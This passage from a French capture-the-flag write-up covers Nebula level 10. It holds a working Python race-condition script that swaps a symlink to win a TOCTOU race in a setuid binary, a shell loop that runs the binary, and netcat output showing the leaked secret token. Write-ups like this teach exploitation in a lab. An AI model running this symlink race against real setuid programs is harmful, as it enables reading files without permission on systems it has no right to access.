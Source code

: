 On peut donc utiliser ce binaire setuid pour envoyer le contenu d'un fichier à destination du port 18211 de l'IP de notre choix. Ca tombe bien car il y a aussi un fichier `token` qu'on ne peut normalement pas lire.

Problème : le code fait un `access` pour vérifier qu'on dispose des permissions en lecture sur le fichier avant de l'envoyer. Solution : le code recréé un nouveau descripteur de fichier plus tard, on est donc dans une situation de race condition.

Il faut que l'on fasse en sorte qu'au moment du `access` le fichier traité soit à nous et qu'au moment de la lecture ce soit un lien symbolique vers `token`.

J'ai d'abord écrit ce script en Python 2 (vieux CTF oblige) :

```python
import os

while True:
        try:
                os.unlink("/tmp/readable")
        except Exception:
                pass

        fd = open("/tmp/readable", "a")
        fd.close()

        try:
                os.unlink("/tmp/readable")
        except Exception:
                pass

        os.symlink("/home/flag10/token", "/tmp/readable")
```

Je le lance en background puis je lance une boucle infinnie pour exécuter le binaire vulnérable. De cette façon il y aura bien un moment où les planètes seront alignées :

```shellsession
$ python /tmp/race.py&
$ while true; do  ./flag10 /tmp/readable 127.0.0.1; done
```

Elles s'alignent même assez régulièrement :)

```shellsession
level10@nebula:~$ nc -l -k 18211 | uniq
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
--- snip ---
```

## Level 11
